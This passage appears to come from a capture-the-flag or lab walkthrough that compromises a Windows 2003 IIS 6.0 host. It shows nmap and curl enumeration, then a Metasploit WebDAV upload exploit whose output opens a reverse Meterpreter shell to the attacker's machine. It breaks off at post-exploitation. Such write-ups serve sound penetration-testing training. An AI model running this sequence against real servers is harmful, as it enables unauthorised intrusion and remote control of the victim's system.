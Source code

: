 **Output:**
```
Starting Nmap 7.80 ( https://nmap.org ) at 2024-09-03 10:00 UTC
Nmap scan report for 10.10.10.15
Host is up (0.045s latency).
Not shown: 991 closed ports
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
135/tcp open  msrpc  Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows_2003
```

### Step 2: Web Service Enumeration
Check the web service for version information.

**Command/Code:**
```bash
curl http://10.10.10.15/
```

**Output:**
```
<html>
<head>
<title>IIS 6.0</title>
</head>
<body>
<h1>Welcome to IIS 6.0</h1>
</body>
</html>
```

### Step 3: IIS Exploitation
Use Metasploit to exploit the IIS vulnerability.

**Command/Code:**
```bash
msfconsole
use exploit/windows/iis/iis_webdav_upload_asp
set RHOSTS 10.10.10.15
set LHOST 10.10.14.2
exploit
```

**Output:**
```
[*] Started reverse TCP handler on 10.10.14.2:4444 
[*] 10.10.10.15:80 - Connecting to the server...
[*] 10.10.10.15:80 - Sending exploit...
[*] Sending stage (175174 bytes) to 10.10.10.15
[*] Meterpreter session 1 opened (10.10.14.2:4444 -> 10.10.10.15:32891) at 2024-09-03 10:05:23 +0000
```

### Step 4: Post-Exploitation
Once we have a Meterpreter session, gather information and find flags.
